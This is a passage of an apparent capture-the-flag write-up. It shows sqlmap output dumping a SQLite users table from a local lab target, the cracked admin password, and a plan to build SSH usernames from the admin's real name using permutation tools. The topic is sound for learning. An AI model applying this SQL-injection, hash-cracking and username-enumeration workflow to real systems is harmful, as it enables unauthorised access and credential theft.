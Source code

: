 ```bash
[15:37:54] [INFO] actively fingerprinting SQLite
[15:37:55] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:37:55] [INFO] fetched data logged to text files under '/home/poorduck/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 15:37:55 /2023-03-26/
```

After dumping database using sqlmap, found a user "admin" and password hash, and found it's clear text password from https://crackstation.net/

```bash
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+
```

**[+] Creds `admin:denjanjade122566`**

But there is a one more catch, we can not use these creds directly in ssh.

There is a table in the database,

```bash
Table: answers
[2 entries]
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
```

And this table contains the real name of the admin **Thomas Keller**, and we can use permutation to generate usernames with it.

there are multiple tools to do this.
* https://github.com/urbanadventurer/username-anarchy
* https://github.com/benbusby/namebuster
